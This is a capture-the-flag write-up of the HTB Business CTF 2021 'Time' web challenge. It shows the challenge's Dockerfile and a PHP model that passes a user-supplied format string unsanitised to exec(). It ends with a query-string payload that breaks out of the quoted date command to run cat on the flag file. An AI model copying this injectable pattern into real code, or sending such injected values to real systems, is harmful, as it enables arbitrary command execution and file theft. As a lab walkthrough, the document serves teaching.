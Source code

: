 ## HTB Business CTF 2021 

Hack The Box (HTB) hosted its very first “corporate only” CTF this past weekend which is called HTB Business CTF 2021. My friend invited me to join their team. So without further ado, let's get into it.

![](1.jpeg)

-------------------------------------------------------
#### Web
- [Time](#time)



------------------------------------------------------

## Time

Challenge: Time

Category: Web

Get the current date and time, anytime, anywhere!

![](2.png)

I notice that it changed when I click the What’s the date? menu.

![](3.png)

Since it's a web challenge, I thought of a possible code injection vulnerability.

They provided a source code:

```
web_time
├── build_docker.sh
├── challenge
│   ├── assets
│   │   └── favicon.png
│   ├── controllers
│   │   └── TimeController.php
│   ├── index.php
│   ├── models
│   │   └── TimeModel.php
│   ├── Router.php
│   ├── static
│   │   └── main.css
│   └── views
│       └── index.php
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
├── Dockerfile
└── flag
```

First, I checked the directory structure, so it's MVC since we have controller, model, and views folders.
Second, I checked the Dockerfile and build it inside my machine, and examine what is the docker image, command used and where’s the flag located.

```
FROM debian:buster-slim

# Setup user
RUN useradd www

# Install system packeges
RUN apt-get update && apt-get install -y supervisor nginx lsb-release wget

# Add repos
RUN wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
RUN echo "deb https://packages.sury.org/php/ $(lsb_release -sc) main" | tee /etc/apt/sources.list.d/php.list

# Install PHP dependencies
RUN apt update && apt install -y php7.4-fpm

# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php/7.4/fpm/php-fpm.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf

# Copy challenge files
COPY challenge /www

# Setup permissions
RUN chown -R www:www /www /var/lib/nginx

# Copy flag
COPY flag /flag

# Expose the port nginx is listening on
EXPOSE 80

# Populate database and start supervisord
CMD /usr/bin/supervisord -c /etc/supervisord.conf
```

I found that the flag is located in /flag path, but they provided a sample flag inside their source code:

![](4.png)

Next is I checked controllers/TimeController.php

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

This indicated that the Controller called/created the object TimeModel, so I checked the models/TimeModel.php

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

I found ```$this->command = “date ‘+” . $format . “‘ 2>&1”;```

This means that we need to inject command (command injection vulnerability)
We can break out the string by adding a single quote (‘) and add a semi-colon(;)

I make an easy request using Burpsuite:

```/?format='; cat ' ../flag```

![](5.png)

Gotcha, I found a flag!!!